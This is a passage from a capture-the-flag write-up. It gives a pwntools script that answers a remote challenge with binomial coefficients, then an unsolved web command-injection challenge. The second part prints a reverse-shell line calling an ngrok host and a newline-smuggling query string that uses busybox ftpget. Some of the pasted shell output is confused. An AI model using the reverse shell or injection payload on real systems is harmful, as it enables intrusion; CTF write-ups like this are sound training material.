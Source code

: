 Big hints: `RSA cracking + hex string`

Trust me..;alot of scripting is involved from here

But to not be too verbose I once again reffer to [those awesome guys](https://github.com/TargetRoot/CTF) and their final payload

```
from pwn import *
def f (param1):
	local_10=1
	local_14=2
	while local_14<=param1:
		local_10 = local_14 * local_10
		local_14 = local_14 + 1
	return local_10
def D(param1,param2):
	return f(param1)//(f(param2)*f(param1-param2))
def checking (param1):
	d=[]
	for i in range(param1+1):
		d.append(D(param1,i))
	return d
conn=remote('51.38.37.81',4003)
a=int(conn.recvline().decode())
print(a)
d=checking(a)
print(len(d))
for i in range(a+1):
	print(d[i])
	conn.sendline(str(d[i]).encode())
print(conn.recvall())

```


### Final

- points = 250
- status = unsolved

The last one! It's a [web challenge!](http://51.38.37.81:4043/)

I didnt do it so still according to [my G's](https://github.com/TargetRoot/CTF)

It was straightforward RCE but...for RCE you might need a VPS (idk If ngrok)

```
└──╼ $pip3 install pyftpdlib

└──╼ $echo 'bash -i >& /dev/tcp/tcp://6.tcp.ngrok.io:16211/4444 0>&1' > shell

└──╼ $sudo python -m pyftpdlib -p 21
[I 2022-09-04 15:15:50] concurrency model: async
[I 2022-09-04 15:15:50] masquerade (NAT) address: None
[I 2022-09-04 15:15:50] passive ports: None
[I 2022-09-04 15:15:50] >>> starting FTP server on 0.0.0.0:21, pid=8573 <<<

└──╼ $?user_inputs[0]=e&user_inputs[1]=a%0a&user_inputs[2]=busybox&user_inputs[3]=ftpget&user_inputs[4]=51383781&user_inputs[5]=1337
[4] 8906
[5] 8907
[6] 8908
bash: ?user_inputs[0]=e : commande introuvable
[7] 8909
[8] 8910
[3]   Fini                    user_inputs[1]=a%0a
[4]   Termine 127             ?user_inputs[0]=e
```